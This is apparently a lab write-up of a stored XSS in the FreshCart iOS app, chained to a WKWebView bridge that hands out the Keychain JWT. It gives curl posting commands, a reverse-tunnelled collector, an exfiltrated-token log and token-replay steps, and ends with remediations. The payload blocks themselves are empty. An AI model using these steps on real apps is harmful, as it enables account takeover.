

**Target:** FreshCart iOS app (`com.mobilehackinglab.FreshCart`, v6.0, built iphoneos 26.4)
**Class:** Stored XSS chained to a native JavaScript bridge that hands the session JWT out of the iOS Keychain
**Impact:** Full account takeover of any user (including the support/admin bot) who renders an attacker-controlled product review

## Summary

FreshCart is a React single page app shipped inside a native iOS `WKWebView`. The React
frontend loads from `https://mhl.pages.dev/freshcart-api/` and authenticates with a JWT.
Instead of keeping that JWT in web storage, the native container stores it in the iOS
**Keychain** and exposes it to JavaScript through three `WKScriptMessageHandler` bridges:
`storeToken`, `retrieveToken`, and `removeToken`.

The product review feature renders user-supplied review bodies with React's
`dangerouslySetInnerHTML`, gated only by a naive `includes("<script>")` string check. That
is a stored XSS. Because the vulnerable DOM runs in the same `WKWebView` that owns the
Keychain bridge, injected JavaScript can simply *ask the native layer for the token* and
exfiltrate it. The "secure" Keychain storage buys nothing once script execution is achieved
in the webview.

## The native bridge

Strings and demangled Swift symbols from the `FreshCart` binary show the bridge wiring:

```
WebViewController.userContentController(_:didReceive:)      // WKScriptMessageHandler
addScriptMessageHandler:name:                              // storeToken / retrieveToken / removeToken
WebViewController.saveTokenToKeychain(_:)
WebViewController.retrieveTokenFromKeychain() -> String?
WebViewController.removeTokenFromKeychain()
SecItemAdd / SecItemCopyMatching / SecItemDelete
kSecClass / kSecClassGenericPassword
```

The token is a `kSecClassGenericPassword` Keychain item. On a `retrieveToken` message, the
native code reads it and injects the result back into the page:

```
window.postMessage({ token: '<jwt>' }, '*');   // on success
window.postMessage({ token: null }, '*');      // on miss
```

The React side consumes this in the bundle's `wo` helper (`main.pretty.js`):

```js
wo = (e, t) => {
  if (window.webkit?.messageHandlers?.retrieveToken) {
    const n = r => { r.data && r.data.token ? e(r.data.token) : t(); window.removeEventListener("message", n) };
    window.addEventListener("message", n);
    window.webkit.messageHandlers.retrieveToken.postMessage(null);   // trigger native read
  } else {
    /* browser fallback: localStorage auth_token */
  }
};
```

Any script in the webview can replay this exact dance: register a `message` listener, call
`retrieveToken.postMessage(null)`, and read `e.data.token`.

## The stored XSS sink

Review bodies are rendered in the product page component (`main.pretty.js`, product view `iu`):

```js
e.review.includes("<script>")
  ? (0, P.jsx)("p", { children: e.review })                       // escaped (safe) branch
  : (0, P.jsx)("p", { dangerouslySetInnerHTML: { __html: e.review } })  // raw HTML injection
```

The only filter is a literal substring check for `<script>`. Any other HTML that executes
JavaScript sails straight through. An `` needs no `<script>` tag, so it lands
in the `dangerouslySetInnerHTML` branch and fires on render.

Reviews are stored through the API with the caller's own JWT:

```
POST https://mhl.pages.dev/freshcart-api/products/<id>/review
Authorization: Bearer <jwt>
Content-Type: application/json

{"title":"...","review":"<html payload>"}
```

## Exploitation

### 1. Obtaining an API token

Posting a review requires a valid `Bearer` JWT. The app's `/register` and `/login`
endpoints both take `{username, password}` (username is the email) and return
`{user, token}`, where `token` is the JWT the native layer stashes in the Keychain:

```
# Register a throwaway account (or log in with an existing one)
curl -s -X POST https://mhl.pages.dev/freshcart-api/register \
  -H "Content-Type: application/json" \
  -d '{"username":"you@test.com","password":"Passw0rd!"}'

# Log in and capture the JWT into $TOKEN
TOKEN=$(curl -s -X POST https://mhl.pages.dev/freshcart-api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"you@test.com","password":"Passw0rd!"}' | jq -r .token)

echo "${TOKEN:0:20}"   # sanity check: eyJ0eXAiOiJKV1Qi...
```

This token is only used to *author* the malicious review. The payoff is the *victim's*
token, which the XSS pulls from their Keychain.

### 2. Lab plumbing

The collector runs on Kali and is reached from the device over an SSH reverse tunnel, so the
in-app `http://127.0.0.1:8888` beacon lands back on the attacker box:

```
# On Kali: start the collector
python3 -m http.server 8888

# Tunnel: forward the device's localhost:8888 to Kali's collector
ssh -N -o ExitOnForwardFailure=yes -R 8888:127.0.0.1:8888 root@10.11.1.1
```

`NSAppTransportSecurity -> NSAllowsArbitraryLoads = true` in `Info.plist`, and `127.0.0.1`
is a potentially-trustworthy origin, so the plain-HTTP beacon from the HTTPS-origin page is
not blocked by ATS or mixed-content policy.

### 3. Staged diagnostic payload

To prove each link in the chain independently, a beacon was fired at every step
(`diag.txt`), posted with `jq --rawfile` to avoid JSON escaping pitfalls:

```
jq -n --rawfile r diag.txt '{title:"diag",review:$r}' | \
  curl -s -X POST https://mhl.pages.dev/freshcart-api/products/26767/review \
  -H "Content-Type: application/json" -H "Authorization: Bearer $TOKEN" -d @-
```

Payload (`diag.txt`):

```html

```

### 4. Result

When the victim rendered product `26767`, all three stages hit the collector, and stage 3
carried the live JWT straight out of the Keychain:

```
GET /s1_onerror                      -> XSS executes in the victim webview
GET /s2_posted                       -> retrieveToken bridge reached
GET /s3_msg?d={"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
     eyJ1c2VybmFtZSI6InlvdUB0ZXN0LmNvbSIsImlhdCI6MTc5NDkwODU3OX0.
     XAIbPJjYGQttobxmb4t2YGbmuvOEhy3iQu__Q7-0az8"}
```

The collector log on Kali, showing the staged beacons and the exfiltrated token:



Decoded JWT claims (HS256):

```json
{"username":"you@test.com","iat":1794908579}
```

Note there is no `exp` claim, so a stolen token does not expire on its own.

### 5. Weaponized payload

For real theft, drop the diagnostic markers and send only the token:

```html

```

Replay the captured JWT as `Authorization: Bearer <jwt>` against any `freshcart-api`
endpoint to act as the victim.

## Why the first attempt seemed to fail

The original single-shot payload "worked" for a visible `background=red` test but seemed to
not exfiltrate. Two reasons, both now ruled out by the staged beacons:

- The `red` test was rendered in the *attacker's own* session; the token theft only matters
  in the *victim/bot* session, which must actually render the product.
- Earlier POST attempts failed JSON encoding (`Bad escaped character`, `Expected ',' or '}'`)
  and never stored the intended body. Posting via `jq --rawfile` fixed the encoding, and the
  success branch guard `if(e.data.token)` stays silent on a `null` token, so a failed read
  looks identical to a dropped beacon. The diagnostic removed that ambiguity.

## Root causes

1. **Unsafe HTML rendering.** `dangerouslySetInnerHTML` on user content, filtered only by a
   `includes("<script>")` substring check. Trivially bypassed by event-handler HTML.
2. **Over-powerful native bridge.** `retrieveToken` returns the raw Keychain JWT to *any*
   script in the webview, with no origin, nonce, or caller restriction. Keychain storage
   gives no protection once the webview is scriptable.
3. **Long-lived tokens.** JWT has no `exp`, so exfiltration yields a durable credential.

## Remediations

- Stop rendering review HTML raw. Render as text, or sanitize with a real allow-list
  sanitizer (e.g. DOMPurify) and drop the `<script>` substring check entirely.
- Remove the `retrieveToken` read-back bridge. The native layer should attach auth to
  outbound requests itself (or inject a short-lived, audience-scoped token), never hand the
  long-lived Keychain secret to page JavaScript.
- Add `exp` to the JWT and enforce it server-side; rotate/revoke on logout.
- Lock down the `WKWebView`: restrict the message handlers' trusted origin and set a strict
  Content-Security-Policy on the served app.

## Appendix: patching and re-signing the app on device

The app had to be re-signed, and not just because the bundle was modified. The **shipped
`FreshCart` Mach-O was signed with only the `get-task-allow` entitlement**. It was missing
`application-identifier` and, critically, `keychain-access-groups`. Without a Keychain access
group the app cannot read or write its own `kSecClassGenericPassword` item, so
`retrieveToken` / `storeToken` return nothing and the whole token flow is dead on device.
That looks exactly like a broken exploit when it is really a missing entitlement.

The embedded provisioning profile (`embedded.mobileprovision`) already authorizes the full
set, so the fix is to re-sign the binary with entitlements that claim them:

```
$ strings embedded.mobileprovision | grep -iE "application-identifier|keychain|team-identifier"
    <key>application-identifier</key>   9935WJZD4N.com.mobilehackinglab.FreshCart
    <key>keychain-access-groups</key>   9935WJZD4N.*
    <key>com.apple.developer.team-identifier</key>   9935WJZD4N
```

Re-signing with `ldid` also re-seals the signature after any bundle edits (for example
swapping in a beautified/instrumented `main.js`), which would otherwise stop the app
launching.

Entitlements applied (`/var/root/ents.plist`):

| Key | Value | Why |
|-----|-------|-----|
| `application-identifier` | `9935WJZD4N.com.mobilehackinglab.FreshCart` | App identity under the team prefix |
| `com.apple.developer.team-identifier` | `9935WJZD4N` | Signing team |
| `get-task-allow` | `true` | Allows attaching a debugger / Frida for instrumentation |
| `keychain-access-groups` | `9935WJZD4N.com.mobilehackinglab.FreshCart` | **The missing one.** Grants access to the Keychain JWT so `retrieveToken`/`storeToken` work |

Re-sign (run on the device, `$APP` = the app bundle path):

```
printf '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"><plist version="1.0"><dict><key>application-identifier</key><string>9935WJZD4N.com.mobilehackinglab.FreshCart</string><key>com.apple.developer.team-identifier</key><string>9935WJZD4N</string><key>get-task-allow</key><true/><key>keychain-access-groups</key><array><string>9935WJZD4N.com.mobilehackinglab.FreshCart</string></array></dict></plist>' > /var/root/ents.plist

# Back up the original, then pseudo-sign with the entitlements
cp "$APP/FreshCart" /var/root/FreshCart.bak
ldid -S/var/root/ents.plist "$APP/FreshCart"

# Verify the entitlements were applied
ldid -e "$APP/FreshCart"
```

`ldid -S<plist>` pseudo-signs the binary and embeds the entitlements; `ldid -e` dumps them
back out so you can confirm `keychain-access-groups` and `get-task-allow` are present. Keep
the `.bak` so the original signed binary can be restored.
